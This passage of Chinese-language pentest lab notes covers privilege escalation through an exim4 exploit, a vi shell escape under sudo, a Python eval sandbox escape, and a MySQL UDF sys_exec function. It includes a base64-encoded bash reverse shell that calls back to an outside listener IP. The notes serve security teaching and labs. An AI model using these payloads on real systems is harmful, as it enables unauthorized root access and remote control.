 查看exim4当前版本号
```
/usr/sbin/exim4 --version
```
![](./assets/1671608750020-3607d179-1203-4686-ba59-982bf6f8ffbf.jpeg)

查找漏洞<br />![](./assets/1671608750132-40ce5a49-6e68-4b71-990f-f3808e7f81ce.jpeg)

上传脚本，执行后成功<br />![](./assets/1671608750721-d575db80-18f3-420b-a2b2-b619dfa319a0.jpeg)

实例参考链接：[DC-8](https://www.yuque.com/xmtxsec/network_security/vulnhub-dc-8)


## 10.8、vi提权
运行sudo -l发现该用户可以任意用户执行vi<br />![](./assets/1671608750824-deb26ba2-b59e-40b1-a461-5737fdbbd684.jpeg)
```
sudo /usr/bin/vi /tmp/jin
```
![](./assets/1671608750860-4a0e824a-2f88-4cc1-8f24-4015b09203e9.jpeg)

esc退出，然后输入
```
 !/bin/bash
```
![](./assets/1671608751168-334c43ef-ecd6-4bae-8aa4-59039c6f726e.jpeg)


## 10.9、Python沙箱逃逸
1337端口用python编写的，于是尝试python沙箱逃逸<br />查看是以什么权限运行
```
eval('__import__("os").system("whoami")') 
```
![](./assets/1671608751583-f725eda5-0c6f-4c48-a38b-401dfd7991cc.jpeg)

反弹shell
```
eval('__import__("os").system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Ny4xMzEvNjY2NiAwPiYx|base64 -d|bash")') 
```
![](./assets/1671608751732-91a06e5f-29e5-431c-8f62-51e3afc024a8.jpeg)


## 10.10、Mysql UDF提权
查看开启的端口发现有3306<br />![](./assets/1671608752326-4c85aeb3-acdf-4df5-81ec-8cd4389774cb.jpeg)

```
ps -ef | grep root | grep mysql
```
![](./assets/1671608752336-5b061fd8-213f-4fd3-84d3-27b9b1904261.jpeg)

在查看mysql数据库时很幸运发现已经存在func表，且表中含有执行命令的函数，
```
mysql> use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed 
mysql> select * from func; 
+-----------------------+-----+---------------------+----------+
|name                   | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function |
| sys_exec              |   0 | lib_mysqludf_sys.so | function |
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)
```